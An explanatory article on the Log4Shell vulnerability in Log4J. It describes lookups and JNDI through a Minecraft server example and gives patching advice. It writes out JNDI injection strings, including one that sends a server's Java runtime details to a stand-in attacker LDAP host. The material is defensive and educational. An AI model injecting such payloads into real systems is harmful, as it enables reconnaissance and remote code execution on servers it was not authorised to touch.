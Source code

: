# Log4J JNDI Exploit

## What is Log4J?

Log4J is the most popular logging library in the Java world. It is used everywhere. You can name any company, they are probably using it, if they have services running Java.
It is so popular, there are many variants for other languages which were inspired by Log4J.

Each log message is sent to a set of previously configured "appenders" which
write or send the data to different locations. This can be a file, database or many others.

## Log4Shell Vulnerability

The exploit was submitted to Apache by Alibaba on November 24, 2021. It was then published in a tweet on December 9, 2021. The vulnerability was given the descriptor "Log4Shell"
and CVE number [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was also given the maximum CVSS score: 10/10. This marks it as very severe, as it is used
by millions of servers and computer around the world.

## Lookups

Log4J supports **lookups**. This allows for logging information about the system (time, date, version, ...). This can be done with a simple syntax in the message
string you give to Log4J when logging something or in the configuration.
Your entered string is then evaluated by Log4J and it then replaces your string with some meaningful data, if you asked for it.

I.e. if I want to get the current OS:

```java
${java:os}
```

This does also work recursively, which means you can nest multiple expressions inside of each other. More on lookups can be found [here](https://logging.apache.org/log4j/2.x/manual/lookups.html).

Now, this is kind of a problem, but not a that severe one. We'll come to the real big problem of this exploit later. Take the following example:

You are running a Minecraft server. Someone is joining with a modified client. The client does not send his real name. Instead, he sends this:

```java
${java:hw}
```

This is a lookup, which will also be logged and evaluated when logged in the server logs. Instead of this string, it'll log your own hardware information.
Now, this isn't really a big problem. This just means you kind of can't really trust your logs anymore. But we're just getting started.

## JNDI

JNDI is the Java Naming and Directory Interface, which is able to lookup data in other services. These can be LDAP, DNS, RMI and some other servers. This is **not** a part of
Log4J and is included in Java. Don't confuse this.

Such a lookup could look like this:

```java
${jndi:ldap://mycoolserver.com/some-data}
```

How can an attacker make use of this? It works like this: Let's take our example with the minecraft server again. The attacker is joining again and is sending
a modified player name:

```java
${jndi:ldap://totallytrustworthyserver.tk/${java:runtime}}
```

In this JNDI lookup, Log4J will send a request to the LDAP server at totallytrustworthyserver.tk and will send the servers Java runtime information.
Now our attacker already knows the exact Java version and distribution we're running.

The LDAP server can also return something, for example a Java object. JNDI will happily accept this response and execute it. Now this is a big problem.
Just to rehearse: There is a foreign piece of code with potentially bad instructions in it, that is executed on **your** server without your knowledge.

As this is a complicated topic, we won't go deeper into this. If you want to learn more, you can find good resources online for further reading.

## How do I secure myself?

An important rule in the whole IT is to always install the latest security updates. These also include patches like this one here.

If you are using Log4J in your application, make sure to update to version 2.17.0 or later. If you're unable to do this, make sure to
remove `org.apache.logging.log4j.core.lookup.JndiLookup` from your classpath.

!!! note

    Only `log4j-core` was affected by this vulnerability. If you're only using log4j-api (i.e. in a Minecraft plugin) your project is not affected.

Update your server to the latest version available. Make sure the maintainers have updated their Log4J dependency. Some older versions of some server software may not be
maintained anymore. You then have to manually make sure, it's dependency is up to date.

Not only servers were affected by this, everyone was. So was also your Minecraft client (the game). If your version is up to date, there is no need to worry. Versions before
1.7 are not affected. Third-party launchers and clients may not be automatically updated. Make sure the maintainers have updated their Log4J.

Also, take a look at [Minecraft's official statement](https://help.minecraft.net/hc/en-us/articles/4416199399693-Security-Vulnerability-in-Minecraft-Java-Edition).
